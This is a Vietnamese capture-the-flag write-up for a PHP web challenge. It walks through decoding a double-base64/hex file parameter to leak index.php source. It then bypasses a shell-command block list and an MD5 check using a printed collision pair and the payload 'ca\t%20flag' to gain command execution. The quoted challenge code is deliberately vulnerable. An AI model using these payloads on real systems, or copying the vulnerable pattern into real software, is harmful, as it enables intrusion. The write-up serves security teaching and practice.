 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/101ec721-a444-410b-93fb-b8e4d4ce7bbf)

 Challenge này không cho ta gì hết ngoại trừ 2 bức ảnh.Để ý URL : `/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=` Ta thấy giá trị của tham số `img` là 1 dãy base64.
 
Sau khi mò nhiều lần thì cái bức ảnh ảnh này phải decode base64 2 lần, cuối cùng thì nó ra HEX.

```
img=TXpVek5UTTFNbVUzTURabE5qYz0
decode base64 lần 1:MzUzNTM1MmU3MDZlNjc=
decode base64 lần 2: 3535352e706e67
Hex: 555.png
```
Sau khi HEX thì nó ra là `555.png` mà đó là cái bức ảnh này ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5f2198c5-02c2-4b7d-98bf-239697335b22)

Mình thử viewsource page thì cái bức ảnh này là 1 dãy base64, mình làm tương tự như tham số `img`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e7c9c6e2-87ba-425b-9ef5-886f2a20dd54)

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/61d2b597-bc9f-4456-80a7-c8e396f310d5)

Cũng ko có gì mới.Bây giờ mình sẽ thử với giá trị `index.php`- là cái background.Reverse `index.php`

```
Hex: 696e6465782e706870
Base64 lần 1: Njk2ZTY0NjU3ODJlNzA2ODcw
Base64 lần 2: TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ae99708d-8bed-482e-8efd-52bcfb94da73)

Bây giờ làm tương tự như ban đầu

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/74df9c3e-2662-45a2-803f-49ba00285e28)

Và nó cho ta source code.

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```
Ban đầu nó gán giá trị của tham số "cmd" được truyền trong URL cho biến $cmd.Vậy thì ta có thể RCE qua biến này

Tiếp theo nó sẽ kiểm tra hai tham số `img` và `cmd` có tồn tại trong url không, nếu 1 trong 2 không tồn tại thì nó chuyển hướng sang url:`/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`.

Và giá trị của `img` được base64 2 lần và chuyển thành chuỗi hex được gán cho biến file.Các giá được trong biến file sẽ được filter `"/[^a-zA-Z0-9.]+/", ""`.Và nó sẽ kiểm tra chuỗi của biến file có từ flag hay ko, nếu có nó sẽ in ra `xixi～ no flag`.Nếu không thì nó sẽ đọc cái biến file decode sang base64 rồi lưu trong biến txt.Sau đó thì nó in ra 1 hình ảnh và content của hình ảnh đó được lấy từ biến txt.Sau đó in ra giá trị biễn $cmd.

Tới cái if tiếp theo nó sẽ filter khá nhiều lệnh trong biến cmd.Nếu ko có thì nó sẽ chuyển sang cái if tiếp theo. Nó sẽ kiểm tra hai biến a và b có khác nhau và có cùng giá trị hàm băm md5 hay không.Nếu điều kiện này đúng thì nó in ra câu lệnh được lưu trong biến cmd.Khi nó so sánh hàm băm thì nó dùng strict comparison.Do đó ta không thể làm theo cách chuyển a và b sang kiểu array bởi vì nó đã ép thành kiểu string.

Sau một hồi research thì mình tìm được chuỗi md5 collision này sau khi url decode thì qua hàm băm sẽ bằng nhau nhưng giá trị ban đầu nó khác nhau.

Nhưng phải chuyển qua dạng urlencode. Đổi khoảng cách thành %.

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

Còn với lệnh cmd thì ta có thể sử dụng `\` payload:`ca\t%20flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/69aec727-4442-41ab-aecb-abda813eef0f)

Mình ko biết tại sao nhưng mà mình làm lại khá nhiều lần thì mới thành công.





